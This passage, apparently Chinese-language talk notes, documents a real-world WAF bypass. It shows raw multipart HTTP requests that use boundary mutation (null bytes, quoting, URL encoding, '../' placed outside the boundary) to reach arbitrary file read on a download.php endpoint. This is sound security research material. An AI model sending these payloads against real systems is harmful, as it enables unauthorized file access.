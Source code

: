 ## 近兩年實戰案例
![image](https://hackmd.io/_uploads/B1fXP4nNkg.png)
### 繞過案例 (一): Boundary Mutation - 任意讀檔
![image](https://hackmd.io/_uploads/ryQquV3Nke.png)
1. 在 multipart boundary path 中測試路徑: 200 OK
2. `./upload/../upload/` 測試相同路徑，但 ../ 被 WAF 檔掉
3. 但在 boundary 外加入黑名單 key word (../): 200 OK
```request
POST /download.php HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="path"; 

./upload/ 
--x 
Content-Disposition: form-data; name="file"; 

s101.pdf 
--x-- 
/../ #boundary 外
```
4. Boundary Mutation: 200 OK
>[!Note]
> 針對 boundary 進行變異:
> 1. 加入 \0（空字元）、空格或換行: `------WebKitFormBoundary12345\0`
> 2. 增加 boundary 外的前後字串: `boundary="----WebKitFormBoundary12345"`
> 3. 透過 URL encode、UTF-7 或其他編碼: `boundary=----%57ebKitFormBoundary12345`

```request
POST /download.php HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x 
Content-Length: (auto) 

--x\0
Content-Disposition: form-data; name="path"; 

./upload/../upload/
--x\0 
Content-Disposition: form-data; name="file"; 

s101.pdf 
--x-- 
```
5. 嘗試讀檔
![image](https://hackmd.io/_uploads/HJOrnIh4kg.png)
